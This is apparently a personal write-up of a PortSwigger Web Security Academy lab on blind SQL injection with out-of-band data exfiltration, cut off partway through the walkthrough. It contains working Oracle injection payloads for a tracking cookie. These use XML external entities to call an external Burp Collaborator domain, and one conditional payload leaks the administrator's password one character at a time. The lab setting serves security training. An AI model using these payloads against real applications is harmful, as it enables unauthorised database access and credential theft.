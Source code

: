 16 Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Learning path: If you're following our learning path, please note that the suggested solution for this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.


---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


The payload for out-of-band interaction is:

```
Cookie: TrackingId=FFyToxqSs49lpxuC'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

We will try this:

```
SELECT CASE WHEN ((SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1))='a') THEN 'a'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual) ELSE NULL END FROM dual
```

```
FFyToxqSs49lpxuC'+union+SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))!='a')+THEN+'a'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://BURP-COLLABORATOR/">+%25remote%3b]>'),'/l')+FROM+dual)+ELSE+NULL+END+FROM+dual--;
```

First I test it when the first character is different to “a” and see there is an interaction:

